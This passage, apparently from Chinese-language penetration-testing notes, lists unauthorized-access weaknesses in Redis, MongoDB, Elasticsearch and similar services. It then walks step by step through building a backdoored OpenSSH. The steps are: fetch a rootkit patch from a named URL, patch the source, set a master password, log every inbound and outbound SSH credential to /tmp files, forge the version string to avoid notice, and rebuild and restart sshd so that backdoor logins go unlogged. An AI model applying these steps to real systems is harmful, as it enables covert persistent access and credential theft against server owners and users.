    ​    iii. Redis 未授权访问或弱口令可导ssh公钥或命令执行  

   ​    iv. Rsync 未授权访问类  

   ​    v. Mongodb未授权访问类  
  
   ​    vi. Elasticsearch命令执行漏洞  

   ​    vii. Memcache未授权访问漏洞  

   ​    viii. 服务相关口令（mysql ldap zebra squid vnc smb）  
  

## 举例 ssh 后门
  
### 安装步骤：  

http://core.ipsecs.com/rootkit/patch-to-hack/0×06-openssh-5.9p1.patch.tar.gz  
http://ftp.eu.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz  
安装前首先  
ssh -V  
[root@vincent tmp]# ssh -V  
OpenSSH_5.3p1, OpenSSL 1.0.1e-fips 11 Feb 2013  
记录下原来ssh版本信息，免得安装后一看就版本不一样了  
``` bash
tar zxvf openssh-5.9p1.tar.gz
tar zxvf 0x06-openssh-5.9p1.patch.tar.gz
cd openssh-5.9p1.patch/
cp sshbd5.9p1.diff ../openssh-5.9p1
cd ../openssh-5.9p1
patch < sshbd5.9p1.diff //patch 后门
```
vi includes.h //修改后门密码，记录文件位置  
``` c
/*
+#define ILOG "/tmp/ilog" //记录登录到本机的用户名和密码
+#define OLOG "/tmp/olog" //记录本机登录到远程的用户名和密码
+#define SECRETPW "123456654321" //你后门的密码
*/
```
vi version.h //修改SSH_VERSION，改成原来的OpenSSH_5.3p1, OpenSSL 1.0.1e-fips 11 Feb 2013  
![](../pictures/sshdversion.png)  
先安装所需环境不然会报错
```
yum install -y openssl openssl-devel pam-devel
// apt-get install openssl libpam0g-dev  libkrb5-dev
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
```
注意要是出现：`configure: error: *** zlib.h missing – please install first or check config.log`
需要安装zlib  
```
yum install -y zlib zlib-devel
make && make install
```
```
service sshd restart //重启sshd
// /etc/init.d/ssh restart
```
然后我们登录ssh看看，不会记录使用后门密码登录的记录。  
